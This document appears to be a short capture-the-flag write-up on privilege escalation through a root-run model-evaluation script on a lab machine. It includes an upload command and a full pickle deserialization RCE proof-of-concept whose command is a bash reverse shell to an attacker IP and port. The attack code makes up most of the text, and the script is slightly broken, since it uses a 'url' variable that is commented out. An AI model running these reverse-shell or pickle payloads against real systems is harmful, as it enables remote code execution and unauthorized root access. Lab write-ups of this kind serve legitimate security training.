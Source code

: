 ```bash
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```

The `evaluate_model` just needs a safe tensor to process. Created a tensor with
script (create_safe_model.py)

compress the tensor into a tar file, the name has to be a .pth as per
`evaluate_model` processing


```bash
tar -cvf safe.pth model.pth
```

Upload to `/models` directory

```bash
scp -i id_rsa safe.pth jippity@10.10.11.19
```

Instead of figuring out how to put malicious code into the tensor.
The `$PYTHON_SCRIPT` was being run as root and it was editable by jippity user.

Below was the script

```python
!/usr/bin/python
#
# Pickle deserialization RCE exploit
# calfcrusher@inventati.org
#
# Usage: ./Pickle-PoC.py [URL]

import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

#default_url = 'http://127.0.0.1:5000/vulnerable'
#url = sys.argv[1] if len(sys.argv) > 1 else default_url
command = '/bin/bash -i >& /dev/tcp/10.10.14.120/4444 0>&1'  # Reverse Shell Payload Change IP/PORT

pickled = 'pickled'  # This is the POST parameter of our vulnerable Flask app
payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
requests.post(url, data={pickled: payload})  # Sending POST request
```

